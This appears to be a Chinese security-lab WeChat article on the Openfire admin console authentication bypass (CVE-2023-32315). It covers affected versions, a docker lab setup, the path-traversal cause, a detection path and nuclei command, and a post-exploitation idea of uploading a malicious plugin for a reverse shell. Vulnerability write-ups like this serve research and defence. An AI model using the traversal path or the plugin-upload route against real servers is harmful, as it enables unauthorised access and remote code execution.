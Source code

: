 #  Openfire 控制台权限绕过漏洞 附检测POC+后利用

原创 unknown  [ 极致攻防实验室 ](javascript:void\(0\);)

**极致攻防实验室** ![]()

微信号 jz_sec

功能介绍 极致攻防实验室专注于最前沿，最基础，最实际的红蓝对抗黑客技术。

____

___发表于_

收录于合集

#poc 8 个

#漏洞 8 个

#nuclei 8 个

**免责声明：  
**

本文章或工具仅供安全研究使用，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，极致攻防实验室及文章作者不为此承担任何责任。

 **简介：**

Openfire是一个开源的、实时通讯服务器，它基于XMPP（可扩展通讯和预测协议）协议，采用Java编程语言开发。Openfire通常用来构建企业级的实时通讯应用，支持文本、语音、视频等多种形式的通讯。
**利用条件：** 3.10.0 <= Openfire < 4.6.8 **漏洞环境部署：**

  *   * 

    
    
     docker pull sameersbn/openfire:3.10.3docker run --name openfire -publish 9090:9090 sameersbn/openfire:3.10.3

 **漏洞原理：**
Openfire在进行路径鉴权时没有很好的处理通配符，结合其内置中间件Jetty对unicode解码特性，配合unicode的编码后的..与%2e，使得攻击者可以绕过身份验证访问后台功能页面,且其后台存在插件安装功能，配合安装恶意插件可远程代码执行。
**漏洞检测：**  
poc: /setup/setup-/../../log.jsp,nuclei检测：

  * 

    
    
    ./nuclei -u http://www.xxx.com/ -t ./ultimaste-nuclei-templates/openfire/CVE-2023-32315.yaml

‍

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230617194346.png)nuclei-
templates:https://github.com/UltimateSec/ultimaste-nuclei-
templates/blob/main/openfire/CVE-2023-32315.yaml **后利用思路：** 利用plugin-
admin.jsp路径上传恶意插件反弹shell即可，这里提供一个思路，直接魔改一下msf
cve-2008-6508的exp直接使用：![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230617194347.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230617194348.png)  
 **修复方式：** 收敛系统访问网络 **参考：** https://learningsomecti.medium.com/path-traversal-
to-rce-openfire-
cve-2023-32315-6a8bf0285fcchttps://github.com/porthunter/gosploit/blob/3b1370488af9de826f0be4d7df92029c30434fd6/modules/exploits/multi/http/openfire_auth_bypass.rb#L183

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

